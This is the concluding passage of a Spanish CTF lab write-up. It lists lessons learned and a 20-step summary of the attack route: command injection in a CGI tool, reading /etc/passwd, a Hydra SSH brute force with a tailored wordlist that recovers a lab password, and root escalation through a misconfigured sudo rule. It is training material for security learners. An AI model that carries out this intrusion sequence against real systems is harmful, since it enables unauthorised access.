## Conclusiones finales

Este laboratorio deja varias lecciones muy buenas:

### 44.1 Enumeración > fuerza bruta
Antes de bruteforcear:
- encontraste `winter` en HTML
- encontraste `Meeseek` en la imagen
- obtuviste `131333` del ZIP

### 44.2 No todos los binarios son lo que parecen
El caso del falso `cat` enseña que:
- el `PATH` importa
- un binario puede estar suplantado
- no hay que fiarse de nombres conocidos

### 44.3 Los permisos importan
`Summer` no podía ejecutar `safe` por permisos.  
Copiarlo a su home y cambiarle permisos fue la solución correcta.

### 44.4 Las flags también pueden ser pistas
`131333` no solo puntúa:
- también es el argumento para `safe`
- y desbloquea la siguiente fase

### 44.5 Una wordlist hecha a medida gana
La combinación de:
- pistas del binario
- contexto temático
- script en Python

permitió generar una lista de solo **780 candidatos**.

### 44.6 La escalada final fue por sudo mal configurado
`RickSanchez` tenía:
- `(ALL) ALL`

Eso equivale a root.

---

## Resumen técnico de la ruta de explotación

1. Descubrimiento de IP con `netdiscover`
2. Enumeración de puertos con `nmap`
3. FTP anónimo → flag
4. Enumeración web (`dirsearch`, `robots.txt`, comentarios HTML)
5. Command Injection en `tracertool.cgi`
6. Enumeración de usuarios desde `/etc/passwd`
7. Cockpit 9090 → flag
8. SSH como `Summer` con `winter`
9. Exfil de ZIP/JPG
10. Extracción de `Meeseek` desde la imagen
11. Descompresión del ZIP → `131333`
12. Entender el `PATH` y detectar el falso `cat`
13. Análisis del binario `safe`
14. Ejecutar `safe 131333` → nueva flag + pistas
15. Generar diccionario personalizado
16. Hydra contra SSH → `RickSanchez:P7Curtains`
17. SSH como `RickSanchez`
18. `sudo -l` → `(ALL) ALL`
19. Escalada a root
20. Lectura de `/root/FLAG.txt`

---

## Estado del laboratorio

✅ Máquina completada  
✅ Acceso root conseguido  
✅ 130 puntos obtenidos  
✅ Ruta documentada paso a paso
